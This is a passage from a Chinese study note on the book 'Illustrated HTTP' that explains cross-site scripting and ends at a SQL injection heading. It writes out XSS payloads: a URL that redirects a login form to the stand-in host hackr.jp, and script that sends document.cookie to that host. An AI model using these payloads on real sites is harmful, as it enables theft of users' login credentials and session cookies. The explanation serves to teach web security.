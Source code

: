 - 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片。

XSS 是攻击者利用预先设置的陷阱触发的被动攻击。

跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于攻击的陷阱。

下图网站通过地址栏中 URI 的查询字段指定 ID，即相当于在表单内自动填写字符串的功能。而就在这个地方，隐藏着可执行跨站脚本攻击的漏洞。

![URI](/images/2018-09-18-read-图解HTTP-Part11-地址栏中 URI.png)

充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶意代码的 URL。并隐藏植入事先准备好的欺诈邮件中或 Web 页面内，诱使用户去点击该 URL。

```javascript
http://example.jp/login?ID=><script>var f=document.getElementById(login); f.action=http://hackr.jp/pwget; f.method=get;</script><span s=
```

浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。当用户在表单内输入 ID 和密码之后，就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登录信息被窃取。

![信息窃取](/images/2018-09-18-read-图解HTTP-Part11-信息窃取.png)

之后，ID 及密码会传给该正规网站，而接下来仍然是按正常登录步骤，用户很难意识到自己的登录信息已遭泄露。

对用户 Cookie 的窃取攻击

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的 Cookie 信息。

```javascript
<script src=http://hackr.jp/xss.js></script>
```

该脚本内指定的 http://hackr.jp/xss.js 文件。即下面这段采用 JavaScript 编写的代码。

```javascript
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```

在存在可跨站脚本攻击安全漏洞的 Web 应用上执行上面这段JavaScript 程序，即可访问到该 Web 应用所处域名下的 Cookie 信息。然 后这些信息会发送至攻击者的 Web 网站（http://hackr.jp/），记录在他的登录日志中。结果，攻击者就这样窃取到用户的 Cookie 信息了。

![使用 XSS 攻击夺取 Cookie 信息](/images/2018-09-18-read-图解HTTP-Part11-使用 XSS 攻击夺取 Cookie 信息.png)

#### SQL 注入攻击
